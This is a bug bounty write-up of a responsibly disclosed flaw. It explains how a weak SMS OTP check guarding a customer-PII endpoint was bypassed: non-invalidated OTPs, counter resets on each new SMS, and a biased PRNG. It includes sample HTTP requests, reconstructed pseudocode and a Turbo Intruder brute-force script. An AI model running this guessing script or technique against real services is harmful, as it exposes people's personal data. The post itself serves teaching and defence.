

It's common to see SMS OTPs used for authentication, but bypassing them is not always trivial. In this post, we'll explore such an exploitation scenario by reverse engineering a black-box functionality, applying probability theory and analyzing entropy.

This is my first blog post ever, so I'd appreciate any feedback via any channel you find appropriate.
## Prologue

I discovered a simple PII disclosure vulnerability on an endpoint that returned customer data based on a provided phone number. The customer data included name, surname, email, phone number, full location, birth date, nationality, ID card or passport number. 

Example request:
```http
POST /retrieve-customer-data HTTP/2
Host: redacted.example.com

phonenumber=9999999
```



The functionality was only there to autofill user forms. The team initially patched an issue straightforwardly by returning only a boolean value whether or not the phone number exists in the database, which I verified. 

However, three days later, developers reintroduced this feature with an additional security layer: requiring a user to provide an SMS OTP in order to retrieve data related to the phone number.

Sounds to be secure, but ...

## Exploiting Weak SMS OTP Implementations

Now, retrieving data required the following two requests: first requesting an OTP, then entering a 4-digit random OTP to retrieve the same data as before.

```http
POST /request-otp HTTP/2
Host: redacted.example.com

phonenumber=9999999
```

```http
POST /retrieve-customer-data HTTP/2
Host: redacted.example.com

phonenumber=9999999&otp=1111
```

The first things I thought about and tested were:
* Not sending an OTP
* Sending a `null` OTP
* Sending `0000` OTP
* Sending an OTP in different data types like arrays 
* Including both a body and query parameter for OTP
* Changing request method
* Changing content types and trying again with different data types
* Attempting to retrieve data without requesting an OTP

Eventually, I tested how many attempts we have before the OTP is invalidated by simply trying first sending one wrong request and then a right OTP, then two, then three wrong requests, and then I understood that the OTP is invalided on the 4th request to `/retrieve-customer-data`.

At this stage, guessing OTPs with a probability of 0.3% is already great, but can we do better?

Sure, while looking for a way to reset a counter of failed attempts, I have found that one can do this by requesting a new SMS message, which generates a new OTP, thus giving us three more attempts. In fact, we can only send 50 SMS messages for a phone number. Now, the setup is much better. 

If you take a look at a pseudo code I reverse-engineered for this feature, you probably might notice a problem.

```python
fail_count_map = dict()   ## 9999999 -> int
phone_to_otp = dict()     ## 9999999 -> list(int)/set(int)
phone_to_max_sms = dict() ## 9999999 -> int


def send_sms(phone_number):
	if phone_to_max_sms[phone_number] > 50:
		return 429_TO_MANY_SMS_MESSAGES_SENT
	OTP = generate_and_send_SMS_OTP()
	phone_to_otp[phone_number].append(OTP)
	fail_count_map[phone_number] = 0
	phone_to_max_sms[phone_number] = phone_to_max_sms[phone_number] + 1
	
def get_data(phone_number, otp):
	if otp in phone_to_otp[phone_number]:
		return GET_USER_DATA(phone_number)
	fail_count_map[phone_number] = fail_count_map[phone_number] + 1
	if fail_count_map[phone_number] > 3:
		# CLEAR OTPS

```

If you indeed noticed - congrats; if not, take a look at lines 2 and 15 - indeed SMS messages are not invalidated once we send a new one, they are simply kept in a structure similar to a set or list, thus each time we exceed our three `/retrieve-customer-data` requests and send a new `/request-otp` request we double our chances for the next three guesses.

For example:
* First 3 guesses with probabilities of 1/10000, 1/9999, 1/9998
* Next 3 guesses with probabilities of 2/9997, 2/9996, 2/9995
* Next 3 guesses with probabilities of 3/9994, 3/9993, 3/9992

After 50 OTP requests, the success rate reached ~**32%**.

Finally, a cherry on top - while testing, I accumulated a few thousand SMS messages, did a simple distribution fitting and found that the most frequent group was 7000-7150. For the PoC, I chose to guess this range and wrote the following Turbo Intruder script.

```
send_sms = """here goes your HTTP request"""

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    code = 7000
    for i in range(50):
        engine.queue(send_sms)
        time.sleep(2.0)
        for k in range(3):
            engine.queue(target.req, str(code))
            code += 1
    

def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)
```

The PoC worked 5 out of 5 times, which led to a conclusion that they might be using a non-cryptographically secure PRNG. It was just an educated guess, but later, the company confirmed that their provider used a non-cryptographically secure PRNG.


## Conclusion

Apart from basic takeaways such as checking for not invalidated OTPs or brainstorming and checking ideas, the following stood out for me:
* Block time somewhere in the future to verify fixes and find bypasses,  even if the fix was confirmed
* Try to "reverse engineer" the logic behind it and write it in code more often. I found it to be helpful to brainstorm further ideas.
* Don't forget about non-cryptographically secure PRNGs and check them more often. (distribution fitting, etc.)

## Timeline

* Overall, less than 12 hours of work were spent on this issue, including reporting and communication with the team.
* 11.11.2024 - First issue reported
* 11.11.2024 - First issue fixed
* 11.11.2024 - Fix verified
* 22.11.2024 - ~11000$ bounty paid
* 29.11.2024 - Second issue reported
* 03.12.2024 - OTP Invalidation issue fixed
* 17.12.2024 - PRNG issue fixed
* 16.01.2025 - Fix confirmed
* 23.01.2025 - ~5500$ bounty paid


